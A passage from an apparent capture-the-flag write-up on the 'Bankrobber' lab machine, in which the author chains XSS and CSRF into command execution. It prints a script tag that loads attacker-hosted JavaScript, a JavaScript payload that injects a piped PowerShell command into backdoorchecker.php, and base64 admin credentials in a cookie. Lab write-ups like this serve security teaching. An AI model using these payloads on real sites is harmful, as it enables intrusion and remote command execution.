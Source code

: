 <br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I believe that the attack vector may be the combination of the two vulnerabilities, **XSS** and **[CSRF](https://portswigger.net/web-security/csrf){:target="_blank"}**, to obtain a **RCE** and thus gain access to the system. What I'm going to do first is to capture the request with **BurpSuite** when trying to execute `dir` to investigate what data is required by the server. The next step is to **[create a .js file to send a request to the backdoorchecker.php](https://javascript.info/xmlhttprequest){:target="_blank"}** file to get the `dir` command executed but concatenating another one with ```|```. There should be no problems since the request will come from the **localhost** IP (thanks to the **XSS**), but in my first attempt I don't succeed. Although I receive the request from the malicious file to my local server started with `python`, the command is not executed, even when I use the **admin** user credentials in the malicious request.

> **[Cross-site request forgery](https://portswigger.net/web-security/csrf){:target="_blank"}** (also known as **CSRF**) is a web security vulnerability that allows an attacker to induce users to perform actions that they do **not intend to perform**. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

```bash
burpsuite &>/dev/null & disown
# https://10.10.10.154/admin/
# Host, Cookie, Content-Type, cmd=dir (Remember this values)

nvim pwn3d_rce.js
cat !$
```

> **pwn3d_rce.js**:

```js
var xhr = new XMLHttpRequest();
param = 'cmd=dir|powershell -c "ping -n 3 10.10.14.10"';
xhr.open("POST",'http://localhost/admin/backdoorchecker.php', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send(param);
```

```bash
python3 -m http.server 80
tcpdump -i tun0 icmp -n
# http://10.10.10.154/user/
# <script src="http://10.10.14.10/pwn3d_rce.js"></script>

# BurpSuite
# Cookie: id=1; username=YWRtaW4%3d; password=SG9wZWxlc3Nyb21hbnRpYw%3d%3d          ? :(
```
